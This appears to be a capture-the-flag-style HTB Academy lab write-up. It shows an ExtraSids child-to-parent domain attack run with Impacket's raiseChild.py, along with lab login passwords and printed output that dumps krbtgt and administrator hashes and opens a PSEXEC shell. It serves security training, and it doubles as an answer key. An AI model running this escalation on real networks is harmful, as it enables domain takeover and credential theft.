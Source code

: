 
## 🎯 **HTB Academy Lab Solution**

### **Lab Environment Setup**
```bash
# SSH to Linux attack host
ssh htb-student@<target-ip>
# Password: HTB_@cademy_stdnt!
```

### **🎫 Question: "Perform the ExtraSids attack to compromise the parent domain from the Linux attack host. After compromising the parent domain obtain the NTLM hash for the Domain Admin user bross. Submit this hash as your answer."**

**Complete Verified Lab Solution:**

**Step 1: SSH to Linux Attack Host**
```bash
# Connect to target system
ssh htb-student@10.129.206.246
# Password: HTB_@cademy_stdnt!

# Successful connection output:
Linux ea-attack01 5.15.0-15parrot1-amd64 #1 SMP Debian 5.15.15-15parrot2 (2022-02-15) x86_64
 ____                      _     ____            
|  _ \ __ _ _ __ _ __ ___ | |_  / ___|  ___  ___ 
| |_) / _` | '__| '__/ _ \| __| \___ \ / _ \/ __|
|  __/ (_| | |  | | | (_) | |_   ___) |  __/ (__ 
|_|   \__,_|_|  |_|  \___/ \__| |____/ \___|\___|

┌─[htb-student@ea-attack01]─[~]
└──╼ $
```

**Step 2: Automated ExtraSids Attack with raiseChild.py**
```bash
# Execute automated child → parent domain escalation
raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
# Password: HTB_@cademy_stdnt_admin!

# Complete attack output:
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
[*] Forest FQDN is: INLANEFREIGHT.LOCAL
[*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
[*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
[*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
[*] Getting credentials for INLANEFREIGHT.LOCAL
INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
[*] Target User account name is administrator
INLANEFREIGHT.LOCAL/administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
INLANEFREIGHT.LOCAL/administrator:aes256-cts-hmac-sha1-96s:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
[*] Opening PSEXEC shell at ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Requesting shares on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
```